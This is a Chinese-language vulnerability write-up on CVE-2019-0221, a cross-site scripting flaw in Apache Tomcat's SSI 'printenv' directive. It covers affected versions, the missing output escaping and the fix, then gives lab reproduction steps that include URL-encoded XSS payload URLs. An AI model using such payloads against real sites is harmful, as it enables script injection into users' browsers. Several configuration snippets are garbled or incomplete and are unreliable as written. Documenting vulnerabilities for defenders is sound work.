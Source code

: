 （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS
======================================================

一、漏洞简介
------------

Apache
Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用"printenv"指令的情况下，才能利用此漏洞。

利用条件

-   必须在Apache Tomcat中启用SSI支持 -
    全局或特定Web应用程序。默认情况下不启用。
-   Web应用程序中必须存在具有"printenv"SSI指令的文件(通常为".shtml")。
-   攻击者必须能够访问该文件。

二、漏洞影响
------------

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

三、复现过程
------------

### 漏洞分析

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的[完整列表](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html#Variables)）。"echo"指令打印出单个变量的值，而"printenv"指令打印出所有变量的值。这两个指令都输出HTML。Apache
Tomcat对于使用"echo"指令时正确地转义了XSS值，但对于"printenv"指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。比较"echo"参数中正确转义输出的[代码](https://github.com/apache/tomcat/blob/master/java/org/apache/catalina/ssi/SSIEcho.java)：

![](./resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId27.png)

与未对输出进行正确转义的"printenv"参数的代码相比：

![](./resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId28.png)

修复方法是添加如下[提交](https://github.com/apache/tomcat/commit/15fcd16)中所示的编码：

![](./resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId30.png)

### 漏洞复现

-   1.在Windows中安装Java运行时环境(JRE)。
-   2.下载有漏洞的Tomcat版本并解压。
-   3.在第19行修改conf\\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）

```{=html}
<!-- -->
```
    Context privileged =“true”>

-   4.根据这里的[指令](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html)修改conf\\web.xml以启用SSI
    servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
-   5.将以下代码放在"webapps / ROOT / ssi / printenv.shtml"中：

```{=html}
<!-- -->
```
    <html><head><title></title><body>
    Echo test: <br /><br />
    Printenv test: 
    </body></html>

-   6通过以下命令运行Tomcat：

```{=html}
<!-- -->
```
    cd bin
    catalina run

-   7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的"echo"指令与无法正确转义的"
    printenv "指令之间的区别

```{=html}
<!-- -->
```
    http://www.0-sec.org:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E

    http://www.0-sec.org:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

![](./resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId33.png)

![](./resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/5310
